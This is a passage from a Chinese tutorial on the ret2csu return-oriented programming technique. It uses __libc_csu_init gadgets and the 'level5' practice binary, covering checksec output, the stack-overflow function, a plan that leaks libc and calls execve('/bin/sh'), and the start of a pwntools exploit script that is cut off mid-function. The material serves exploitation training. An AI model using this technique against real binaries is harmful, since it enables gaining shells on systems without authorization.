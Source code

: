 这里我们可以利用以下几点

- 从0x000000000040061A一直到结尾，我们可以利用栈溢出构造栈上数据来控制rbx,rbp,r12,r13,r14,r15寄存器的数据。
- 从0x0000000000400600到0x0000000000400609，我们可以将r13赋给rdx,将r14赋给rsi，将r15d赋给edi（需要注意的是，虽然这里赋给的是edi，**但其实此时rdi的高32位寄存器值为0（自行调试）**，所以其实我们可以控制rdi寄存器的值，只不过只能控制低32位），而这三个寄存器，也是x64函数调用中传递的前三个寄存器。此外，如果我们可以合理地控制r12与rbx，那么我们就可以调用我们想要调用的函数。比如说我们可以控制rbx为0，r12为存储我们想要调用的函数的地址。
- 从0x000000000040060D到0x0000000000400614，我们可以控制rbx与rbp的之间的关系为rbx+1=rbp，这样我们就不会执行loc_400600，进而可以继续执行下面的汇编程序。这里我们可以简单的设置rbx=0，rbp=1。

### 示例

这里我们以蒸米的一步一步学ROP之linux_x64篇中level5为例进行介绍。首先检查程序的安全保护

```shell
➜  ret2__libc_csu_init git:(iromise) ✗ checksec level5   
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序为64位，开启了堆栈不可执行保护。

其次，寻找程序的漏洞，可以看出程序中有一个简单的栈溢出

```c
ssize_t vulnerable_function()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x200uLL);
}
```

简单浏览下程序，发现程序中既没有system函数地址，也没有/bin/sh字符串，所以两者都需要我们自己去构造了。

**注：这里我尝试在我本机使用system函数来获取shell失败了，应该是环境变量的问题，所以这里使用的是execve来获取shell。**

基本利用思路如下

- 利用栈溢出执行libc_csu_gadgets获取write函数地址，并使得程序重新执行main函数
- 根据libcsearcher获取对应libc版本以及execve函数地址
- 再次利用栈溢出执行libc_csu_gadgets向bss段写入execve地址以及'/bin/sh’地址，并使得程序重新执行main函数。
- 再次利用栈溢出执行libc_csu_gadgets执行execve('/bin/sh')获取shell。

exp如下

```python
from pwn import *
from LibcSearcher import LibcSearcher

##context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
```